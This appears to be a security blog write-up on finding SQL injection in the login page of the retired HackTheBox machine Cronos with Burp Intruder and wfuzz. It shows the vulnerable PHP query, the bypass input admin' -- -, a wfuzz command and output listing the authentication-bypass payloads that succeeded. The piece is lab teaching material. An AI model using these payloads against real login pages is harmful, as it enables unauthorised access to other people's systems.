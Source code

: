 ```yaml
---
layout: single
title: Login page Enumeration for SQLi using BurpSuite and wfuzz. 
date : "2020-03-26"
---
```


This article shows how to enumerate login page for SQL injection using burpsuite and Wfuzz, and I am considering Cronos machine from HackTheBox retired machines for this example.

{% capture fig_img %}
![Foo]({{ "/images/SQLi/SQLi_login_page.png"|relative_url}})
{% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>Fig 1. Cronos login page.</figcaption>
</figure>


From initial enumeration, we know its a linux server running apache and uses php, which leads us to suspect a mysql database server running in backend to support login page.

lets visualize SQL query which will be accepting our user input data. 

~~~sql
$sql = "SELECT id FROM users 
WHERE username = '".$myusername."' and password = '".$mypassword."'";
~~~

ideally to bypass authentication we need to pass a username which would change the execution flow. 
And in this example, it is very simple to achieve it by passing **admin' -- -** where we comment the query after username field.

But queries can be complex sometimes and may not be so easy to visualize like in this example, so to speed up the enumeration we can pass all the possible combinations to the username field and test for SQLi.

To achieve, I am using a work list from the [link](https://github.com/swisskyrepo PayloadsAllTheThings/tree/master/SQL%20Injection) and fuzz the user input field to find if the given field is vulnerable for the injection.

I have sent the request to burpsuite and passed it to burp intruder 

{% capture fig_img %}
![Foo]({{ "/images/SQLi/SQLi_burp_intruder.png" | relative_url }})
{% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>Fig 2. Burp Suite Intruder.</figcaption>
</figure>


Set payload marker to fuzz username parameter and it does not matter what password we enter. and under payloads tab I have copied the list I obtained from the [link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

{% capture fig_img %}
![Foo]({{ "/images/SQLi/SQLi_burp_intruder_payload.png" | relative_url }})
{% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>Fig 3. Burp Suite Intruder payload.</figcaption>
</figure>


and now we are set to start fuzzing the login page.

{% capture fig_img %}
![Foo]({{ "/images/SQLi/SQLi_burp_intruder_result.png" | relative_url }})
{% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>Fig 4. Burp Suite Intruder results.</figcaption>
</figure>


Now we have multiple 302 (URL redirects) which indicates the fuzzing was successful. 

This process can be slow on burp communnity edition, so alternatively wfuzz can be used for the same, sample code snippet of same is shown below.

~~~console
root@kali:~/Desktop/htb/cronos# wfuzz -c -z file,/opt/SecLists/Fuzzing/SQLi/Generic-SQLi.txt --hc 200 -d "username=FUZZ&password=admin" http://admin.cronos.htb 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://admin.cronos.htb/
Total requests: 267

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000201:  C=302     98 L	     215 W	   2580 Ch	  "x' or 1=1 or 'x'='y"
000217:  C=200     98 L	     221 W	   2618 Ch	  "declare @s varchar(200) select @s = 0x77616974666F722064656C61792027303A303A31302700 exec(@s)000218:  C=200     98 L	     221 W	   2618 Ch	  "declare @q nvarchar (200) 0x730065006c00650063007400200040004000760065007200730069006f006e00 000216:  C=200     98 L	     221 W	   2618 Ch	  "declare @q nvarchar (200) select @q = 0x770061006900740066006F0072002000640065006C00610079002000228:  C=302     98 L	     215 W	   2580 Ch	  "' or 0=0 #"
000234:  C=302     98 L	     215 W	   2580 Ch	  "' or 1=1 or ''='"
000065:  C=302     98 L	     215 W	   2580 Ch	  "admin' or '"

Total time: 8.873858
Processed Requests: 267
Filtered Requests: 263
Requests/sec.: 30.08837

~~~

